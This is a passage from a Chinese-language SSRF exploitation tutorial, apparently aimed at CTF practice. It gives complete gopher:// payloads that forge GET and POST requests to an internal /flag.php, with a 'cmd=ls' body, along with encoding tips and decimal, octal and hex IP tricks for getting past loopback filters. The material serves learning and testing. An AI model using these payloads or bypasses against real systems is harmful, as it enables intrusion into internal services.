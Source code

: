 **重要注意事项：**

* **默认端口：** Gopher 默认端口为 70。请始终在您的载荷 URL 中为目标服务指定正确的端口（例如，`gopher://192.168.1.201:80/_...`）。
* **字符剥离：** 许多 `curl` 版本（通常是 SSRF 的后端）或 PHP 的 `gopher://` 处理可能会剥离载荷的第一个字符。为了解决这个问题，请在实际载荷前添加一个额外的字符（例如，下划线 `_`）。例如，如果您的 HTTP 请求以 `GET /` 开头，您的 gopher 载荷将以 `_GET /` 开头。
* **URL 编码：** 通过 gopher 发送的载荷数据必须进行 URL 编码。如果您将此载荷注入到一个会被 URL 解码一次的上下文中（例如 URL 中的 GET 参数），然后 `curl` 或 PHP 包装器再次对其进行解码，您可能需要对载荷中的特殊字符进行**两次 URL 编码**。当通过 Burp Suite 之类的工具（浏览器或工具会处理第一层编码）制作和注入载荷时尤其如此。

**利用示例：**

* **构造 GET 请求：**
    ```
    gopher://<目标IP>:<端口>/_GET /flag.php HTTP/1.1%0d%0AHost: <目标IP>%0d%0A%0d%0A
    ```
    * **载荷分解：**
        * `_`：牺牲字符。
        * `GET /flag.php HTTP/1.1`：HTTP 请求行。
        * `%0d%0A`：URL 编码的 CRLF (回车，换行)，用于 HTTP 中的新行。
        * `Host: <目标IP>`：HTTP Host 头部。
        * `%0d%0A%0d%0A`：两个 CRLF 表示头部结束。

* **构造 POST 请求：**
    ```
    gopher://<目标IP>:<端口>/_POST /flag.php HTTP/1.1%0d%0AHost: <目标IP>%0d%0AContent-Type: application/x-www-form-urlencoded%0d%0AContent-Length: 6%0d%0A%0d%0Acmd=ls
    ```
    * **载荷分解：**
        * `_`：牺牲字符。
        * `POST /flag.php HTTP/1.1`：HTTP 请求行。
        * `Host: <目标IP>`：Host 头部。
        * `Content-Type: application/x-www-form-urlencoded`：Content-Type 头部。
        * `Content-Length: 6`：POST 主体的长度 (`cmd=ls` 是 6 字节)。
        * `%0d%0A%0d%0A`：头部结束。
        * `cmd=ls`：POST 主体。

---

### 5. 绕过 IP 地址过滤器 (针对本地回环/内部地址)

**核心原理：**

应用程序可能具有阻止 SSRF 指向 `127.0.0.1` 或其他本地/内部 IP 地址的防御措施。有时可以通过使用 IP 地址的替代表示形式来绕过这些防御。

**针对 `127.0.0.1` (或其他 IP) 的绕过技术：**

* **十进制 (整数) 表示：** 将 IP 地址转换为其单个整数十进制形式。
    * 示例：`127.0.0.1` = `2130706433`。因此，使用 `http://2130706433/`。
* **八进制表示：** 将 IP 地址的每个八位字节转换为八进制。
    * 示例：`127.0.0.1` = `0177.00.00.01`。因此，使用 `http://0177.0.0.01/` (许多解析器会将前导零视为八进制)。
* **十六进制表示：** 将每个八位字节或整个 IP 转换为十六进制。
    * 示例 (每个八位字节)：`127.0.0.1` = `0x7f.0x00.0x00.0x01`。
    * 示例 (整个 IP)：`127.0.0.1` = `0x7f000001`。因此，使用 `http://0x7f000001/`。
* **混合/部分编码：** 某些解析器可能会被混合编码或使用部分点分表示法 (例如，`127.1`，通常解析为 `127.0.0.1`) 所欺骗。
* **使用 `localhost` 或其他指向目标的可解析名称。**

---